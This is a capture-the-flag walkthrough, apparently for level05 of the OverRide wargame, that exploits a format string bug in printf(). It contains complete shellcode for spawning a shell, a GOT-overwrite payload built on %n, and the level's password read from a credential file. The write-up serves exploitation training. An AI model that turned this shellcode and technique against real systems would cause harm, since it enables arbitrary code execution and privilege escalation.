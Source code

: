 The program is quite simple. It records the user's input in a buffer with a call to fgets(). Then it makes a kind of tolower() for each uppercase alphabetic character in the buffer. Finally, the content of the buffer is displayed with a badly formatted printf() before the program exits using `exit(0)`. We will be able to perform a format string attack thanks to the badly formatted printf(). We will have to use a shellcode, and for its execution, we should be able to overwrite the address of exit() in the Global Offset Table (GOT).

1. First, let's export a shellcode in an environment variable and find its address using [this little script](env_addr.c):
```
level05@OverRide:~$ export SHELLCODE=$(python -c 'print "\x90" * 79 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"')
level05@OverRide:/tmp$ gcc -m32 env_addr.c -o env_addr
level05@OverRide:/tmp$ ./env_addr SHELLCODE
0xffffd88a
```

2. Let's now get the address of exit() in the Global Offset Table using gdb:
```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```
So we now have the address we want to ovewrite: 0x80497e0.

3. Now, let's find the offset of the buffer:
```
level05@OverRide:~$ ./level05 
aaaa %x %x %x %x %x %x %x %x %x %x %x
aaaa 64 f7fcfac0 f7ec3af9 ffffd6cf ffffd6ce 0 ffffffff ffffd754 f7fdb000 61616161 20782520
```
Here we have the begining of the buffer (61616161 = "aaaa") with an offset of 10.

4. We can now build our payload. The first thing we want to write in the buffer is the address we want to overwrite, that is the exit() address int the GOT. Now that the buffer contains an address, it behaves like a pointer and we will be able to write to this address with the `%n` modifier: by specifying the buffer offset (`$10`), we can write in whatever the buffer points to.

But what do we want to write? The address of our shellcode of course. The difficulty here is that the `%n` modifier has a particular behaviour: it writes the number of characters that come before the occurrence of the modifier. We will have to write the number of characters corresponding to the decimal value of the address of our shellcode (0xffffd88a = 4294957194). Obviously, so many characters will never fit in the buffer, so we will use a modifier with a width field.

Here we encounter another difficulty: the decimal value of the shellcode address is too large to be stored on 32 bits. We will therefore split the address and write it on 8 bytes. Since we want to register the address in the little endian convention, we have to first give the two last bytes of the address. For each part, we need to get the decimal value and substract from it the number of characters that have already been printed:
* 0xd88a = 55434, 55434 - 8 = 55426
* 0xffff = 65535, 65535 - 55434 = 10101

```
level05@OverRide:~$ python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55426d%10$n" + "%10101d%11$n"' > /tmp/exp
level05@OverRide:~$ cat /tmp/exp - | ./level05
...
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
We can now reach the next level with the command `su level06` and fill in the flag found as a password.